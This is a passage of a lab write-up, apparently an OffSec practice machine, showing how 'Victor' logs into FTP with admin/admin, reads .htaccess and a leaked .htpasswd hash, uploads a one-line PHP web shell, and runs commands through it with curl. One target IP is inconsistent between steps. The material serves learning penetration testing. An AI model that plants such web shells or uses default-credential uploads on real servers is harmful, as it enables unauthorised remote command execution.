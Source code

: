 When Victor logged-in as admin using admin as the password, he was allowed to read/download the files below. Of note, the .htaccess file not only suggests the offsec account is required to login to TCP port 242, but the working directory for the HTTP server is `c:\wamp\www\`.
```bash
.htaccess
# output
AuthName "Qui e nuce nuculeum esse volt, frangit nucem!"
AuthType Basic
AuthUserFile c:\\wamp\www\.htpasswd
<Limit GET POST PUT>
Require valid-user
</Limit>

.htpasswd
# output
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0

cat index.php
# output
<center><pre>Qui e nuce nuculeum esse volt, frangit nucem!</pre></center>
```

Victor was also able to write to the directory and upload a file he eventually used as an LFI exploit.
```bash
vim cmd.php # <? php echo shell_exec($_GET['cmd']); ?>
ftp 192.168.51.46 21
binary
put cmd.php
exit
```

### HTTP
Along with a username/password prompt, the following was displayed attempting to access TCP port 242. 
```bash
firefox http://192.168.51.46:242

# Qui e nuce nuculeum esse volt, frangit nucem!
# Translated: He who would eat the kernel of a nut, breaks the nut!
```

```bash
curl "http://192.168.41.46:242/cmd.php?cmd=whoami"
```

### SQL
```bash
mysql -u $USER -h $TARGET

# output
NSTR
```
